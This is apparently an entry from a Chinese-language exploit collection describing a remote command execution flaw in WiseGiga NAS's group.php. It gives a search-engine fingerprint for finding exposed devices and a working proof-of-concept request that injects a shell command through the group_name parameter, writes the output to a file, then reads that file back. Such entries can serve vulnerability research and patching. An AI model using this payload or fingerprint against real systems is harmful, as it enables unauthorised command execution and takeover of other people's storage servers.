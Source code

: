 # WiseGiga NAS group.php 远程命令执行漏洞

## 漏洞描述

WiseGiga 是一家销售网络连接存储（NAS ）产品的韩国公司。

WiseGiga NAS group.php文件存在远程命令执行漏洞，攻击者通过发送特定的请求包可以获取服务器权限

## 漏洞影响

```
WiseGiga NAS
```

## 网络测绘

```
app="WISEGIGA-NAS"
```

## 漏洞复现

主页面

![image-20220628113649787](./images/202206281144970.png)

验证POC

```
/admin/group.php?memberid=root&cmd=add&group_name=d;id>1.txt
```

![image-20220628114731029](./images/202206281147112.png)

```
/admin/1.txt
```

![image-20220628114740534](./images/202206281147595.png)